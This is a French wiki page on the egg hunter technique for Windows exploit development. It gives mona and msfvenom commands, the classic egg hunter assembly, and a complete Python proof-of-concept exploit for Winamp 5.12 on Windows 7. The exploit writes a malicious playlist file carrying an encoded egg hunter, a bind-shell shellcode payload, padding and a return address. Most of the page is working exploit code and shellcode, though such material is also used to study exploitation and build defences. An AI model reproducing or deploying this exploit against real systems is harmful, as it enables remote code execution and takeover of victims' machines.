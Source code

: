 ```yaml
---
title: Egg Hunter
permalink: /Egg_Hunter/
---
```


Le principe d'un egg hunter est de séparer le shellcode en deux sections:

-   Une première section contenant la charge utile (e.g. bind shell, reverse shell, etc.). Cette partie est précédée d'un "Egg" qui est une chaîne spécifique répétée deux fois (e.g. W00TW00T).
-   Une seconde section contenant le "egg hunter" qui va parcourir la mémoire à la recherche de la charge utile.

Utilisation
-----------

Générer un shellcode egg hunter pour b33f avec [mona](/mona "wikilink"):

``` python
!mona egg -t b33f
```

Si on a besoin d'encoder l'egg hunter:

``` bash
echo "\x66\x81\xca\xff\x0f\x42\x52\x6a\x02\x58\xcd\x2e\x3c\x05\x5a\x74" | msfvenom --platform windows -a x86 -e x86/alpha_mixed -f py -p -
```

Il est recommandé de faire une recherche pour identifier où la charge utile se trouve en mémoire:

``` python
!mona cmp -f "E:\Exemple\shellcode"
```

Dans certains cas l'egg hunter tombera sur l'egg, mais le shellcode qui le suit sera corrompu. Dans ce cas:

-   Modifier l'egghunter pour qu'il commence au bon endroit. Il faut garder à l'esprit que la base address sera modifiée. Cependant la répartition sur la stack ne devrait pas l'être. On peut donc se baser sur l'état courant des registres.
-   Ajouter un contrôle d'intégrité à l'egghunter (voir [EggSandwich – An Egghunter with Integrity](http://www.securitysift.com/eggsandwich-egghunter-integrity/))

Exemple exploitation
--------------------

Exploitation de Winamp 5.12 sous Windows 7:

``` python
#!/usr/bin/env/python

head = "[playlist]\r\nFile1=\\\\"

# Egghunter modifié et encodé avec msfvenom
# On a ajouté un "or edx, 0x00FFFFFF" au début. Ceci permet de s'assurer qu'on trouve le shellcode intégre ET qu'il ne soit pas trop proche d'ESP.
buf =  ""
buf += "\x89\xe2\xdb\xd3\xd9\x72\xf4\x59\x49\x49\x49\x49\x49"
buf += "\x49\x49\x49\x49\x49\x49\x43\x43\x43\x43\x43\x43\x37"
buf += "\x51\x5a\x6a\x41\x58\x50\x30\x41\x30\x41\x6b\x41\x41"
buf += "\x51\x32\x41\x42\x32\x42\x42\x30\x42\x42\x41\x42\x58"
buf += "\x50\x38\x41\x42\x75\x4a\x49\x4e\x61\x6b\x7a\x39\x6f"
buf += "\x4b\x4f\x59\x6f\x63\x30\x73\x56\x6b\x31\x49\x5a\x39"
buf += "\x6f\x44\x4f\x70\x42\x53\x62\x61\x7a\x74\x42\x46\x38"
buf += "\x5a\x6d\x64\x6e\x47\x4c\x75\x55\x30\x5a\x50\x74\x58"
buf += "\x6f\x6d\x68\x43\x47\x46\x50\x66\x50\x53\x44\x6e\x6b"
buf += "\x48\x7a\x4c\x6f\x44\x35\x68\x6a\x4e\x4f\x32\x55\x7a"
buf += "\x47\x4b\x4f\x5a\x47\x41\x41"

egghunter = buf

# Un bind shell encodé avec msfvenom
buf =  ""
buf += "\x89\xe2\xda\xd2\xd9\x72\xf4\x5f\x57\x59\x49\x49\x49"
buf += "\x49\x49\x49\x49\x49\x49\x49\x43\x43\x43\x43\x43\x43"
buf += "\x37\x51\x5a\x6a\x41\x58\x50\x30\x41\x30\x41\x6b\x41"
buf += "\x41\x51\x32\x41\x42\x32\x42\x42\x30\x42\x42\x41\x42"
buf += "\x58\x50\x38\x41\x42\x75\x4a\x49\x49\x6c\x39\x78\x4e"
buf += "\x62\x73\x30\x33\x30\x63\x30\x73\x50\x4f\x79\x69\x75"
buf += "\x50\x31\x49\x50\x31\x74\x6e\x6b\x62\x70\x66\x50\x4c"
buf += "\x4b\x46\x32\x44\x4c\x4c\x4b\x56\x32\x72\x34\x4e\x6b"
buf += "\x34\x32\x57\x58\x76\x6f\x6c\x77\x42\x6a\x45\x76\x64"
buf += "\x71\x6b\x4f\x4e\x4c\x45\x6c\x75\x31\x63\x4c\x53\x32"
buf += "\x66\x4c\x75\x70\x6a\x61\x6a\x6f\x36\x6d\x53\x31\x4f"
buf += "\x37\x59\x72\x59\x62\x51\x42\x71\x47\x6c\x4b\x30\x52"
buf += "\x64\x50\x6e\x6b\x61\x5a\x47\x4c\x6c\x4b\x42\x6c\x67"
buf += "\x61\x44\x38\x58\x63\x77\x38\x55\x51\x5a\x71\x42\x71"
buf += "\x6c\x4b\x50\x59\x65\x70\x45\x51\x59\x43\x6e\x6b\x51"
buf += "\x59\x44\x58\x69\x73\x66\x5a\x53\x79\x6e\x6b\x76\x54"
buf += "\x4c\x4b\x67\x71\x4a\x76\x34\x71\x4b\x4f\x6c\x6c\x6b"
buf += "\x71\x5a\x6f\x44\x4d\x63\x31\x6f\x37\x45\x68\x39\x70"
buf += "\x62\x55\x68\x76\x57\x73\x73\x4d\x59\x68\x47\x4b\x31"
buf += "\x6d\x71\x34\x74\x35\x5a\x44\x33\x68\x6e\x6b\x72\x78"
buf += "\x44\x64\x77\x71\x4a\x73\x53\x56\x6c\x4b\x54\x4c\x32"
buf += "\x6b\x6e\x6b\x31\x48\x77\x6c\x43\x31\x4b\x63\x6c\x4b"
buf += "\x74\x44\x4e\x6b\x56\x61\x48\x50\x4d\x59\x62\x64\x44"
buf += "\x64\x74\x64\x33\x6b\x33\x6b\x35\x31\x33\x69\x32\x7a"
buf += "\x46\x31\x4b\x4f\x6b\x50\x63\x6f\x73\x6f\x63\x6a\x6e"
buf += "\x6b\x44\x52\x68\x6b\x4e\x6d\x33\x6d\x70\x68\x77\x43"
buf += "\x77\x42\x57\x70\x75\x50\x33\x58\x62\x57\x73\x43\x66"
buf += "\x52\x61\x4f\x46\x34\x32\x48\x72\x6c\x50\x77\x77\x56"
buf += "\x55\x57\x39\x6f\x49\x45\x4d\x68\x4a\x30\x63\x31\x37"
buf += "\x70\x37\x70\x57\x59\x49\x54\x32\x74\x72\x70\x51\x78"
buf += "\x56\x49\x6b\x30\x62\x4b\x63\x30\x79\x6f\x4a\x75\x53"
buf += "\x5a\x43\x38\x36\x39\x76\x30\x49\x72\x79\x6d\x31\x50"
buf += "\x36\x30\x77\x30\x70\x50\x30\x68\x4a\x4a\x76\x6f\x69"
buf += "\x4f\x69\x70\x4b\x4f\x58\x55\x5a\x37\x52\x48\x43\x32"
buf += "\x35\x50\x47\x61\x53\x6c\x6c\x49\x49\x76\x52\x4a\x36"
buf += "\x70\x72\x76\x33\x67\x63\x58\x6a\x62\x59\x4b\x45\x67"
buf += "\x35\x37\x59\x6f\x4a\x75\x56\x37\x32\x48\x6f\x47\x4a"
buf += "\x49\x74\x78\x4b\x4f\x6b\x4f\x78\x55\x46\x37\x71\x78"
buf += "\x53\x44\x58\x6c\x67\x4b\x68\x61\x59\x6f\x6b\x65\x72"
buf += "\x77\x4f\x67\x50\x68\x32\x55\x30\x6e\x62\x6d\x50\x61"
buf += "\x79\x6f\x6b\x65\x65\x38\x50\x63\x42\x4d\x62\x44\x37"
buf += "\x70\x4e\x69\x59\x73\x52\x77\x61\x47\x63\x67\x30\x31"
buf += "\x69\x66\x63\x5a\x76\x72\x50\x59\x56\x36\x48\x62\x79"
buf += "\x6d\x53\x56\x6b\x77\x52\x64\x55\x74\x77\x4c\x75\x51"
buf += "\x55\x51\x4c\x4d\x37\x34\x66\x44\x34\x50\x48\x46\x35"
buf += "\x50\x32\x64\x72\x74\x32\x70\x50\x56\x52\x76\x36\x36"
buf += "\x63\x76\x76\x36\x52\x6e\x73\x66\x61\x46\x72\x73\x76"
buf += "\x36\x45\x38\x63\x49\x58\x4c\x57\x4f\x4e\x66\x6b\x4f"
buf += "\x6a\x75\x4e\x69\x6b\x50\x30\x4e\x76\x36\x61\x56\x59"
buf += "\x6f\x50\x30\x52\x48\x53\x38\x4d\x57\x67\x6d\x51\x70"
buf += "\x4b\x4f\x68\x55\x4f\x4b\x4a\x50\x4d\x65\x69\x32\x33"
buf += "\x66\x55\x38\x69\x36\x4a\x35\x6d\x6d\x4f\x6d\x49\x6f"
buf += "\x79\x45\x65\x6c\x53\x36\x73\x4c\x55\x5a\x6b\x30\x49"
buf += "\x6b\x69\x70\x30\x75\x74\x45\x4d\x6b\x71\x57\x55\x43"
buf += "\x53\x42\x62\x4f\x31\x7a\x65\x50\x70\x53\x69\x6f\x6a"
buf += "\x75\x41\x41"

shellcode = "w00tw00t" + buf

padding = "\x90"*(1022 - len(shellcode) - len(egghunter))
payload = ""
print("[+] offset {}\r\n[shellcode]".format(len(payload)))
payload+= shellcode
print("[+] offset {}\r\n[padding]".format(len(payload)))
payload+= padding[:len(padding)/2]
print("[+] offset {}\r\n[egghunter]".format(len(payload)))
payload+= egghunter
print("[+] offset {}\r\n[padding]".format(len(payload)))
payload+= padding[len(padding)/2:]
print("[+] offset {}\r\n[return address]".format(len(payload)))
payload+= "\x61\xd9\x02\x02" + "\xE9\x16\xFF\xFF\xFF" + "\x90"*6

end = "\r\n\Title1=bramo\r\nLength=512\r\nNumberOfEntries=1\r\nVersion=2\r\n"

f = open('poc.pls','w')
f.write(head + payload + end)
f.close()

# Cette partie est destinée à avoir un fichier pour utiliser mona cmp -f shellcode et identifier où se trouvent les points d'intérêts en mémoire.
f = open('shellcode', 'w')
f.write(shellcode)
f.close()
```

Exemple d'egg hunter
--------------------

L'exemple ci-dessous est l'exemple "classique" d'egg hunter:

``` asm
loop_inc_page:
    or    dx, 0x0fff                    // Add PAGE_SIZE-1 to edx
loop_inc_one:
    inc   edx                           // Increment our pointer by one
loop_check:
    push  edx                           // Save edx
    push  0x2                           // Push NtAccessCheckAndAuditAlarm
    pop   eax                           // Pop into eax
    int   0x2e                          // Perform the syscall
    cmp   al, 0x05                      // Did we get 0xc0000005 (ACCESS_VIOLATION) ?
    pop   edx                           // Restore edx
loop_check_8_valid:
    je    loop_inc_page                 // Yes, invalid ptr, go to the next page

is_egg:
    mov   eax, 0x50905090               // Throw our egg in eax
    mov   edi, edx                      // Set edi to the pointer we validated
    scasd                               // Compare the dword in edi to eax
    jnz   loop_inc_one                  // No match? Increment the pointer by one
    scasd                               // Compare the dword in edi to eax again (which is now edx + 4)
    jnz   loop_inc_one                  // No match? Increment the pointer by one

matched:
    jmp   edi                           // Found the egg.  Jump 8 bytes past it into our code.
```

Ressources
----------

-   [Fuzzy Security - Egg Hunters](http://www.fuzzysecurity.com/tutorials/expDev/4.html)

[Category:Exploitation](/Category:Exploitation "wikilink")